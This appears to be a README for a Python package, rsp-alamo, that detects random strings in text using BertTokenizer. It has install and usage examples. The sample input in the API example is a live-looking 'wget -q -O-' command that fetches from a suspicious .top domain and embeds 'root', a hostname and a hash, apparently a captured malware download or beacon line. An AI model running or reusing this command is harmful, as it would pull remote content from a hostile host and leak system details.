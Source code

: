 # rsp-alamo
Random-string-processing - is a python module for detect random string by BertTokenizer from transformers.

# Quick start guide
You can quickly use rsp-alamo via pip-installation:
```bash
$ pip/pip3 install rsp-alamo
```

# API example
```python
from rsp.util import RspUtil
rsp_util = RspUtil()
string = "wget -q -O- http://t.jdjdcjq.top/ln/a.asp?rds_20210710*root*dclnmts02." \
         "adderucci.com*3e4812648d32b3808308784c4b69240d227f3cd97906957f65e70b962e9852f2"
print(rsp_util.replace_rs(string))
```

# Cased not covered
```bash
$ 4v~qxd#q
$ AjscE2w%x4$c
```